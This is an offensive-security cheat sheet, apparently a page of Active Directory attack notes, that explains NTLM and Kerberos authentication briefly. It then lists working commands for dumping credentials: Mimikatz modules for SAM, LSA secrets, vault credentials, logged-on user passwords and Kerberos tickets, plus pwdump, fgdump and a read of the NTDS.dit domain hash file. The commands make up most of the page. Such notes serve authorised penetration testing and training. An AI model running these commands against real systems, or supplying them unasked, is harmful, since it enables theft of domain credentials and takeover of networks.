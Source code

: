 # AD Authentication

## <mark style="color:red;">Dumping NTLM Hashes and Plaintext Credentials</mark>

NTLM authentication uses a challenge-response model, where a nonce/challenge encrypted using the user's NTLM hash is validated by the Domain Controller.

Dumping LM/NTLM hashes with Mimikatz

* [Full Mimikatz Guide](https://adsecurity.org/?page\_id=1821#SEKURLSALogonPasswords)
* Requires local admin rights.

```bash
# escalate security token to SYSTEM integrity
mimikatz > privilege::debug
mimikatz > token::elevate

# dump NTLM hashes + plaintext creds
mimikatz.exe lsadump::secrets "vault::cred /patch" lsadump::sam
mimikatz > lsadump::secrets
mimikatz > vault::cred /patch
mimikatz > lsadump::sam              # dump contents of SAM db in current host
mimikatz > sekurlsa::logonpasswords  # dump creds of logged-on users
```

Other tools

```bash
cmd> pwdump.exe localhost
cmd> fgdump.exe localhost          # improved pwdump, shutdown firewalls 
cmd> type C:\Windows\NTDS\NTDS.dit # all domain hashes in NTDS.dit file on the Domain Controller
```

## <mark style="color:red;">Dumping Kerberos Tickets</mark>

Kerberos authentication uses a ticketing system, where a Ticket Granting Ticket (TGT) is issued by the Domain Controller (with the role of Key Distribution Center (KDC)) and is used to request tickets from the Ticket Granting Service (TGS) for access to resources/systems joined to the domain.

* Hashes are stored in the Local Security Authority Subsystem Service (LSASS).
* LSASS process runs as SYSTEM, so we need SYSTEM / local admin to dump hashes stored on target.

Dumping Kerberos TGT/TGS tickets with Mimikatz

```bash
mimikatz > sekurlsa::tickets
```

See "[Service Account Attacks](ad-lateral-movement.md#service-account-attacks)" on how to abuse dumped tickets.
